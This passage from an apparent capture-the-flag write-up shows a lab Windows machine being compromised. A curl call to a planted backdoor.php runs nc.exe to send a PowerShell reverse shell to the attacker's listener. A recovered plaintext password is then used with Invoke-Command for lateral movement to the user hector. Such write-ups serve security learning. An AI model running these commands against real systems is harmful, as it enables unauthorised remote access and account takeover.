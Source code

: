 Now we finished preparation for getting a reverse shell.<br>
Launch a netcat listener and execute the following `curl` command.
```shell
root@kali:~# nc -nlvp 4443
listening on [any] 4443 ...

```
```shell
root@kali:~# curl http://10.10.10.167/backdoor.php?cmd=C:\\inetpub\\wwwroot\\nc.exe+-e+powershell.exe+10.10.14.42+4443
```

The target machine spawns a PowerShell session and send back to our localhost as `nt authority\iusr`.<br>
However, we still can't get `user.txt` and need a lateral movement.
```shell
root@kali:~# nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.167] 51393
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot> whoami
whoami
nt authority\iusr
```
```shell
PS C:\users\Hector> ls
ls
ls : Access to the path 'C:\users\Hector' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\users\Hector:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

We already have a password `l33th4x0rhector` for `Hector`.<br>
To achieve an user shell as `Hector`, we still need the hostname of this machine.
```shell
PS C:\users\Hector> hostname
hostname
Fidelity
```

To run a command as `hector`, we need to execute the following commands.<br>
Running `whoami` shows that the command is executed as `control\hector`.
```shell
PS C:\> $password = convertto-securestring -AsPlainText -Force -String "l33th4x0rhector"
$password = convertto-securestring -AsPlainText -Force -String "l33th4x0rhector"
PS C:\> $credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "Fidelity\hector",$password
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "Fidelity\hector",$password
PS C:\> Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -Credential $credential
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -Credential $credential
control\hector
```
